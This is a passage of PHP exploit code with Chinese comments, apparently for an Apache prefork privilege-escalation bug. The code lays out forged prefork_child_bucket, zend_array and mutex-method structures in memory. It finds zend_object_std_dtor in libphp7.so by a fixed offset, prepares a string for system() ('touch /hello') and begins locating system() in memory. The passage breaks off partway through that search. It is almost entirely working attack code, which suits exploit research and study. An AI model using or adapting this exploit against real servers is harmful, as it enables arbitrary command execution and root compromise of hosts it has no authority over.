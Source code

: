 ```

echo "evil prefork_child_bucket start addr:0x".dechex($evil_parent_start_addr)."\n";

//我们需要将prefork_child_bucket与zend_object结合，使其包含zend_object 的 properties字段,因此prefork_child_bucket的"大小"是40+16字节
$evil_parent_end_addr = $evil_parent_start_addr + 40+16;
echo "evil prefork_child_bucket end addr:0x".dechex($evil_parent_end_addr)."\n";

//将apr_proc_mutex_t结构与zend_array结构结合为一个结构
$evil_zend_array_start_addr = $evil_parent_end_addr;
echo "evil zend_array start addr:0x".dechex($evil_zend_array_start_addr)."\n";

$evil_zend_array_end_addr = $evil_zend_array_start_addr + 0x38;
echo "evil zend_array end addr:0x".dechex($evil_zend_array_end_addr)."\n";

//apr_proc_mutex_unix_lock_methods_t结构
$evil_mutex_methods_start_addr = $evil_zend_array_end_addr;
$evil_mutex_methods_end_addr = $evil_mutex_methods_start_addr + 0x50;

echo "evil mutex_methods start addr:0x".dechex($evil_mutex_methods_start_addr)."\n";
echo "evil mutex_methods end addr:0x".dechex($evil_mutex_methods_end_addr)."\n";

//system()中的字符串

$evil_string = "touch /hello";
$evil_string_len = strlen($evil_string)+1;//\0结尾

if($evil_string_len%8)`{`//对齐
    $evil_string_len = ((int)($evil_string_len/8)+1)*8;
`}`
echo "evil string: ".$evil_string." len:".$evil_string_len."\n";

$evil_string_start_addr = $evil_mutex_methods_end_addr;
$evil_string_end_addr = $evil_string_start_addr + $evil_string_len;

echo "evil string start addr:0x".dechex($evil_string_start_addr)."\n";
echo "evil string end addr:0x".dechex($evil_string_end_addr)."\n";

//查找zend_object_std_dtor的地址(我的在libphp7.so)
$zend_object_std_dtor_addr = 0;
$libphp_region = get_mem_region("libphp");
if(!count($libphp_region))`{`
    die("can't find zend_object_std_dtor function addr\n");
`}`

for($i = 0;$i&lt;count($libphp_region);$i++)`{`
    if($libphp_region[$i][2] === "r-xp")`{`
        $zend_object_std_dtor_addr = $libphp_region[$i][0]+0x4F8300;//zend_object_std_dtor 在libphp7.so代码段中的偏移
        break;
    `}`
`}`

if($zend_object_std_dtor_addr === 0)`{`
    die("can't find zend_object_std_dtor function addr\n");
`}`
echo "zend_object_std_dtor function addr:0x".dechex($zend_object_std_dtor_addr)."\n";

//查找system函数的地址(在libpthread中)
$system_addr = 0;
$pthread_region = get_mem_region("pthread");
if(!count($pthread_region))`{`
    die("can't find system function addr\n");
```